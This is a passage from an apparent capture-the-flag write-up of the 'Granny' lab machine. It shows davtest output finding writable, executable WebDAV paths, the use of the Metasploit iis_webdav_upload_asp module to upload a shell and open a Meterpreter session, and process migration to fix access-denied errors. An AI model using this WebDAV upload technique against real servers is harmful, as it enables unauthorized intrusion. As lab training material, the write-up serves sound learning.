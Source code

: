 ```shell-session
EXEC    php     FAIL
EXEC    jsp     FAIL
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS/davtest_rYTCBzbBQ12UMS.txt
EXEC    aspx    FAIL
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS/davtest_rYTCBzbBQ12UMS.html
EXEC    cfm     FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS
MOVE/PUT File: http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS/davtest_rYTCBzbBQ12UMS.pl
MOVE/PUT File: http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS/davtest_rYTCBzbBQ12UMS.cgi
MOVE/PUT File: http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS/davtest_rYTCBzbBQ12UMS.jhtml
MOVE/PUT File: http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS/davtest_rYTCBzbBQ12UMS.shtml
MOVE/PUT File: http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS/davtest_rYTCBzbBQ12UMS.asp
MOVE/PUT File: http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS/davtest_rYTCBzbBQ12UMS.php
MOVE/PUT File: http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS/davtest_rYTCBzbBQ12UMS.jsp
MOVE/PUT File: http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS/davtest_rYTCBzbBQ12UMS.txt
MOVE/PUT File: http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS/davtest_rYTCBzbBQ12UMS.aspx
MOVE/PUT File: http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS/davtest_rYTCBzbBQ12UMS.html
MOVE/PUT File: http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS/davtest_rYTCBzbBQ12UMS.cfm
Executes: http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS/davtest_rYTCBzbBQ12UMS.txt
Executes: http://10.10.10.15/DavTestDir_rYTCBzbBQ12UMS/davtest_rYTCBzbBQ12UMS.html
```

---

## Exploitation: PUT + MOVE shell upload with Metasploit

The MOVE method is supported, the trick works. We can take advantage of this using the *iis_webdav_upload_asp* Metasploit module:

![img](/images/granny-writeup/4.png)

A Meterpreter session was successfully spawned, but I get access denied at every command I try to run:

```shell-session
meterpreter > getuid
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```

I got this issue with Grandpa too and it makes the whole privilege escalation phase impossible if this little issue isn't solved first. Fixing it is actually very simple, we just have to migrate to a different process owned by our current user, I don't know the cause behind this problem but this is the fix nonetheless:

```shell-session
meterpreter > ps

Process List
============

PID   PPID  Name               Arch  Session  User                          Path
---   ----  ----               ----  -------  ----                          ----
0     0     [System Process]                                                
4     0     System                                                          
276   4     smss.exe                                                        
312   1076  cidaemon.exe                                                    
324   276   csrss.exe                                                       
348   276   winlogon.exe                                                    
396   348   services.exe                                                    
408   348   lsass.exe                                                       
```